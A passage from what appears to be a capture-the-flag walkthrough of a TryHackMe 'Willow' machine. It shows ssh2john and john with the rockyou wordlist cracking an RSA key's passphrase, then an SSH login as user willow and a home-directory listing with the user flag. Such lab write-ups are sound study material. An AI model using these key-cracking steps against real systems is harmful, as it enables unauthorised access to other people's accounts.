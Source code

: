### Cracking the passphrase

Let's crack the passphrase. First I used an additional tool called `ssh2john` which changes the format of the key to a format which is crackable by `john`, then I ran `john` using `rockyou` wordlist to crack its passphrase:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ /usr/share/john/ssh2john.py rsa_key > key.hash
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt key.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
wildflower       (rsa_key)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:08 DONE (2021-11-02 07:59) 0.1236g/s 1772Kp/s 1772Kc/s 1772KC/s *7¡Vamos!
Session completed
~~~

RSA key passphrase: `wildflower`

## User Flag

Now we can connect to the machine via ssh as user `willow`. First I listed the files in our home directory and the user flag is in a jpg format:

~~~
willow@willow-tree:~$ id
uid=1000(willow) gid=1000(willow) groups=1000(willow),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),119(bluetooth)
willow@willow-tree:~$ ls -la
total 96
drwxr-xr-x 16 willow willow  4096 Mar  2  2020 .
drwxr-xr-x  3 root   root    4096 Jan 30  2020 ..
lrwxrwxrwx  1 willow willow     9 Jan 30  2020 .bash_history -> /dev/null
-rw-r--r--  1 willow willow   220 Jan 30  2020 .bash_logout
-rw-r--r--  1 willow willow  3515 Jan 30  2020 .bashrc
drwxr-xr-x  8 willow willow  4096 Jan 30  2020 .cache
drwx------ 11 willow willow  4096 Jan 30  2020 .config
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Desktop
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Documents
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Downloads
drwx------  3 willow willow  4096 Mar  2  2020 .gconf
drwx------  2 willow willow  4096 Jan 30  2020 .gnupg
-rw-------  1 willow willow  4056 Mar  2  2020 .ICEauthority
drwx------  3 willow willow  4096 Jan 30  2020 .local
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Music
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Pictures
-rw-r--r--  1 willow willow   675 Jan 30  2020 .profile
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Public
drwx------  2 willow willow  4096 Mar  1  2020 .ssh
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Templates
-rw-r--r--  1 willow willow 12721 Jan 30  2020 user.jpg
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Videos
~~~
